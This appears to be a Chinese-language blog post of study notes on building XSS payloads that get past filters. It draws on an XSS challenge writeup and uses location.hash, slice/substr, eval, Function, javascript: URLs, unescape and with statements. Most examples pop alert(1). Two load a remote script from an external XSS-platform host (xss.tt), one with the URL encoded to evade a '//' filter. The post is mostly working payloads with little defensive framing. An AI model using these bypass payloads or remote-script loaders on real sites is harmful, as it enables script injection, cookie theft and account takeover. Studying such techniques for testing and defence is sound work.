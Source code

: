 ﻿### 前言 
- - -
近日在看些xss相关的知识，在乌云知识库上，有篇`XSS挑战第一期Writeup`里面姿势很多，能力不足，有些无法复现，就把自己觉得好玩的写下来。

### location
- - -
`Location对象`对于我们构造一些另类的`xss payload`有很大的帮助，例如P牛这篇文章介绍的使用编码[利用location来变形我们的XSS Payload](https://www.leavesongs.com/PENETRATION/use-location-xss-bypass.html)

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g23p2vbp4vj30nh0bet9c.jpg)

### Location
- - -
在介绍Location的属性前，我们先来了解下`slice()`方法。

slice() 方法可从已有的字符串中返回选定的元素。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g23padlh4ij30fd06h74x.jpg)

#### location.hash
- - -
查阅文档。
![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g23petooh6j30ex07r0t4.jpg)

我们关注的重点是`#`的作用，`location`对象的`hash`属性用于设置或取得 URL 中的锚部分。

例如我们现在的网址为`http://localhost/1.html#s9mf`，我们在控制台输入`location.hash`，则会返回我们设定的`锚`。
![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g23poowv99j30fg04daa2.jpg)

利用这个特性，在构造xss代码时，可以把一部分`payload`，放置在测试语句的尾部。

例子：

```html
<body/onload=eval(location.hash.slice(1))>#alert(1)
```

这里用`eval`执行通过`location.hash`获取过来的`alert(1)`代码，`slice`方法在这里的作用是截取下标为1以后的字符串元素(包括1)。如果你还是不太理解，那么我们用`document.write`输出到页面。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g23q6cv3spj30vn04xjrs.jpg)

可见，slice方法在这里返回的字符串为`alert(1)`，`substr`方法在这里也可以代替`slice`使用。

```
<body/onload=setTimeout(location.hash.substr(1))()>#alert(1)
```
这里使用的setTimeout，也可以使用`constructor`属性来执行代码，不过要记住加个`()`。

`Set.constructor(location.hash.substr(1))()` 

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g23qiigyv6j30vn0al3zc.jpg)

也可以使用`execScript`，不过`execScript`是IE浏览器独有，所以只能在`IE`弹，相比较下`eval`则是所有浏览器都支持。

```
<body/onload=execScript(location.hash.substr(1))>#alert(1)
```

![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g23qt0ghxvj30qn07aglr.jpg)

使用`Function`匿名函数来执行尾部的代码。

```
<body/onload=Function(location.hash.slice(1))()>#alert(/xss/)
```

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g24dcxlrytj30vn0al754.jpg)

利用`伪协议`。

```
<body/onload=eval(location.hash.slice(1))>#javascript:alert(1)
```

利用注释，引用伪协议后开始变得有趣。

```
<svg/onload=location='javascript:/*'%2blocation.hash> #*/alert(1) 
```

更进一步。

```
<svg/onload=location="javascript:"%2binnerHTML%2blocation.hash>"  #"-alert(1)
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g288vx8t6xj30vn0anwfc.jpg)

#### unescape()
- - -
`unescape()`函数用于对已经使用`escape()`函数编码的字符串进行解码，并返回解码后的字符串。

我们引入外部`url`时，如果拦截`//`，我们可以先url编码，再解码。
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g29glrk8pzj30fg05x0sv.jpg)

例如：
```
<svg/onload=appendChild(createElement('script')).src=unescape('http%3A%2F%2Fxss.tt%2F1te')>
```

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g29h0xgftjj30vn0f3t9z.jpg)


#### with
- - -
`with`语句可以方便地用来引用某个特定对象中已有的属性。使用with可以实现通过节点名称的对象调用。

如果`.`被拦截，我们可以尝试`with`。
```
<svg/onload=with(location)with(hash)eval(alert(1))>
```
![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g29i0tg4nuj30vn0al3zc.jpg)

基于DOM的方法创建和插入节点把外部JS文件注入到网页中，也可以应用with。
```
<svg/onload="[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})">
```


### 参考
- - -
* https://www.cnblogs.com/slpawn/p/8630740.html
* http://www.anquan.us/static/drops/papers-894.html
* http://www.anquan.us/static/drops/papers-938.html
* https://www.t00ls.net/viewthread.php?tid=43475&highlight=%2B风在指尖